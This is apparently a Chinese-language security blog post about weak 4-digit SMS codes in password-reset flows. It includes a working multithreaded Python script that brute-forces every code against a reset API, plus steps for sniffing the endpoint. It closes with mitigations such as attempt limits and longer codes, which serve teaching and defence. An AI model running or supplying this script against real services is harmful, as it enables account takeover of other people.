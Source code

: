 ```yaml
---
title: 找回密碼之簡訊驗證碼強度安全問題
author: ZhgChgLi
date: 2021-03-14T23:57:38.256Z
categories: ZRealm Dev.
tags: [ios-app-development,hacker,web-security,password-security,security-token]
---
```


### 找回密碼之簡訊驗證碼強度安全問題

使用 Python 展示暴力破解的嚴重性

![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg "Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)")
### 前言

本文沒什麼資安技術含量，單純是日前在使用某平台網站時的突發奇想；想說順手測看看安全性，結果發現的問題。

在使用網站、APP 服務的忘記密碼找回功能時；一般會有兩個選項，一是輸入帳號、Email，然後會寄含有 Token 的重設密碼頁面連結到信箱，點擊後打開頁面就能重設密碼，這部分沒什麼問題，除非像 [之前那篇](../142244e5f07a) 文章所說，設計上有漏洞才會有問題。

另一個找回密碼的方式是輸入綁定的手機號碼（多半用在 APP 服務），然後會寄出簡訊驗證碼到手機，完成驗證碼輸入即可重設密碼；但為了便利性，多半的服務都是使用純數字作為驗證碼，另外也因為在 iOS ≥ 11 之後增加 [Password AutoFill](../948ed34efa09) 功能，當手機收到驗證碼後鍵盤會自動判讀並跳出提示。

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow) ，蘋果並沒有給出驗證碼自動填入的判讀格式規則；但我看幾乎所有能支援自動填入的服務都是使用純數字，推測應該是只能用數字不能使用數字英文夾雜的複雜組合。
### 問題

因數字密碼的組合存在暴力破解的可能性，尤其是 4 位密碼；組合只有 0000~9999，10,000 種組合；使用多個 thread 多台機器就能分組暴力破解。

假設驗證請求需要 0.1 秒回應，10,000 個組合 = 10,000 次請求
```
破解所需嘗試時間：((10,000 * 0.1) / thread 數) 秒
```

就算不開 thread 也只需要 16 多分種就能嘗試出正確的簡訊驗證碼。
> _除密碼長度、複雜度不足之外，還有個問題是驗證碼未設嘗試上限、有效期限太長這兩個問題。_

### 組合

綜合上述，此資安問題常見於 APP 端；因網頁服務多半都會在嘗試錯誤多次後加上圖形驗證碼驗證或在請求重設密碼時需多輸入安全問題，增加發送驗證請求的困難度；另外網頁服務的驗證若沒有前後端分離，變成每次驗證請求都要拿整個網頁，拉長請求回應時間。

APP 端因流程設計及方便使用者，多半會簡化重設密碼流程、有的 APP 甚至是通過手機號碼驗證就能登入；如果在 API 端沒有做防護則會造成資安漏洞。
### 實踐
> ⚠️警告⚠️ 本文僅作展示此安全問題的嚴重性，請勿拿去做壞事。
#### 嗅探驗證請求 API

萬事都從嗅探開始，這部分可參考之前的文章「 [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00) 」、「 [使用 Python+Google Cloud Platform+Line Bot 自動執行例行瑣事](../70a1409b149a) 」第一篇文章看原理建議使用第二篇文章的 [Proxyman](https://proxyman.io/) 進行嗅探。

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

如果是前後端分離的網站服務也能使用 Chrome -> 檢查 -> Network -> 查看在送出驗證碼後發了什麼請求。

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**這邊假設得到的檢查驗證碼請求是：**
```
POST [https://zhgchg.li/findPWD](https://zhgchg.li/findPWD)
```

**Response：**
```
{
   "status":fasle
   "msg":"驗證錯誤"
}
```
#### 撰寫暴力破解 Python 腳本
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

執行腳本後我們得到：

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)
```
驗證碼等於：1743
```

將 `1743` 帶入重設密碼更改掉原始密碼或直接登入帳號。
> Bigo!
### 解決之道
- 密碼重設增加更多資訊驗證（如：生日、安全問題）
- 增加驗證碼長度（如 Apple 6 碼數字）、增加驗證碼複雜度（如果不影響 AutoFill 功能）
- 驗證碼嘗試錯誤大於 3 次後使其失效，需請使用者重新發送驗證碼
- 驗證碼有效時限縮短
- 驗證碼嘗試錯誤過多次鎖定裝置、增加圖形驗證碼
- APP 多做 SSL Pining、傳輸加解密（防止嗅探）

### 延伸閱讀
- [揭露一個幾年前發現的巧妙網站漏洞](../142244e5f07a)
- [如何打造一場有趣的工程CTF競賽](../729d7b6817a4)
- [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00)
- [使用 Python+Google Cloud Platform+Line Bot 自動執行例行瑣事](../70a1409b149a)

[Like Z Realm's work](https://cdn.embedly.com/widgets/media.html?src=https%3A%2F%2Fbutton.like.co%2Fin%2Fembed%2Fzhgchgli%2Fbutton&display_name=LikeCoin&url=https%3A%2F%2Fbutton.like.co%2Fzhgchgli&image=https%3A%2F%2Fstorage.googleapis.com%2Flikecoin-foundation.appspot.com%2Flikecoin_store_user_zhgchgli_main%3FGoogleAccessId%3Dfirebase-adminsdk-eyzut%2540likecoin-foundation.iam.gserviceaccount.com%26Expires%3D2430432000%26Signature%3DgFRSNto%252BjjxXpRoYyuEMD5Ecm7mLK2uVo1vGz4NinmwLnAK0BGjcfKnItFpt%252BcYurx3wiwKTvrxvU019ruiCeNav7s7QUs5lgDDBc7c6zSVRbgcWhnJoKgReRkRu6Gd93WvGf%252BOdm4FPPgvpaJV9UE7h2MySR6%252B%252F4a%252B4kJCspzCTmLgIewm8W99pSbkX%252BQSlZ4t5Pw22SANS%252BlGl1nBCX48fGg%252Btg0vTghBGrAD2%252FMEXpGNJCdTPx8Gd9urOpqtwV4L1I2e2kYSC4YPDBD6pof1O6fKX%252BI8lGLEYiYP1sthjgf8Y4ZbgQr4Kt%252BRYIicx%252Bg6w3YWTg5zgHxAYhOINXw%253D%253D&key=a19fcc184b9711e1b4764040d3dc5c07&type=text%2Fhtml&schema=like)

有任何問題及指教歡迎 [與我聯絡](https://www.zhgchg.li/contact) 。



+-----------------------------------------------------------------------------------+

| **[View original post on Medium](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190) - Converted by [ZhgChgLi](https://zhgchg.li)/[ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown)** |

+-----------------------------------------------------------------------------------+
